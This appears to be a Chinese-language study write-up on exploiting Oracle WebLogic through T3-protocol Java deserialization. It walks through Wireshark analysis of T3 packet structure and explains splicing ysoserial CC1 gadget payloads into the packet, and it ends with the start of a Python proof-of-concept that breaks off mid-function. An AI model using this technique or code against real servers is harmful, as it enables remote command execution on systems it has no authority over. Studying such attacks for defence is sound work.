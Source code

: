因为这里的weblogic里面带有CC1的链子

![image-20220420154817590](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420154817590.png)

我使用的7u21的jdk是可以打的，直接用ysoserial生成的链子作为请求主体的序列化数据，在目标处反序列化执行命令，创建一个新的文件

![image-20220420151345575](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420151345575.png)

可以看到已经执行成功了，接下来就是wireshark抓包分析下流量了

![image-20220420151411026](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420151411026.png)

这就是整个数据包的内容，下面是请求主体

- HL: 标识后边发起的T3协议头长度
- AS: 标识了发送的序列化数据的容量

查看十六进制数据可以发现

客户端与服务端通信的数据均以0a结尾，也就是以`\n\n`结尾

![image-20220420151605848](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420151605848.png)

后面第二部分到第七部分都是以`ac ed 00 05`开头，也就是序列化数据，在才开始学java反序列化的时候也看到过

**T3协议数据交换过程**

![image-20220420152154076](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420152154076.png)

## T3协议攻击weblogic

目前已经了解了T3协议的数据交换过程，我们还需要对数据包中的二进制串有一个深入的认知，才能理解T3协议反序列化的原理。

需要知道的有：

- 每个T3的数据包中都必须包含T3协议头
- 序列化数据的头部二进制串为`ac ed 00 05`
- 数据包前4字节，标识了数据包的长度
- 长度标识后一个字节标识了该数据包是请求还是响应，01代表请求,02代表响应

![image-20220420153135831](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220420153135831.png)

这里的`000005f0`代表数据包长度，`01`就表示请求，从`000005f0`这里到`aced0005`之前都属于第一部分

第二到第七部分内容，开头都是`ac ed 00 05`，说明这些都是序列化的数据。只要把其中一部分替换成我们的序列化数据就可以了，有两种替换方式

- 将weblogic发送的JAVA序列化数据的第二到七部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。
- 将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接

所以这里的攻击方式就明白了，我们构造第一部分正常的序列化数据（这里是非java序列化数据），然后拼接java序列化数据来作为请求主体发送，最后的poc再贴一次

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```